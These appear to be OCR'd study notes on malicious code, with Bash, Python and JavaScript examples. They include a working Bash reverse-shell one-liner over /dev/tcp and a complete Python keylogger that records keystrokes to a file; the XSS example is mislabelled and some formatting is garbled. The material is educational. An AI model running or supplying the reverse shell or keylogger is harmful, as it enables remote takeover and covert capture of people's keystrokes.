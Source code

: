 ## Malicious Code

### **Bash Shell Attacks**

- Attackers use Bash scripts to compromise systems, escalate privileges, or manipulate files.
- Example: Reverse shell script allows attackers to control a compromised system remotely.
.sh extension.

`bash -i >& /dev/tcp/$ip/$port 0>&1`  

### **Python-based Malware**

- Python is used to develop malicious scripts, such as keyloggers or data exfiltration tools.
- Python scripts are dynamic and easy to distribute via phishing or compromised websites.

`from pynput.keyboard import Key, Listener
import logging`

`logging.basicConfig(
    filename="mykeylog.txt",
    level=logging.DEBUG,
    format="%(asctime)s - %(message)s"
)`

`def on_press(key):
    try:
        [logging.info](http://logging.info/)(f"Key pressed: {key.char}")
    except AttributeError:
        [logging.info](http://logging.info/)(f"Special key pressed: {key}")`

`with Listener(on_press=on_press) as listener:
    listener.join()`

### **JavaScript Exploits**

- **Purpose**: Client-side attacks like stealing user data, redirecting traffic, or unauthorized transactions.
- **Example Script**: Injected malicious button on a webpage:
    
    ```html
    
    <input type="button" onclick="badscript()">
    
    ```
    
- **Cross-Site Scripting (XSS)**:
    - Injects malicious code into a user’s browser. Example:
        
        ```html
        html
        <script src="myapplication.js"></script>
        
        ```
        

# Application Attacks
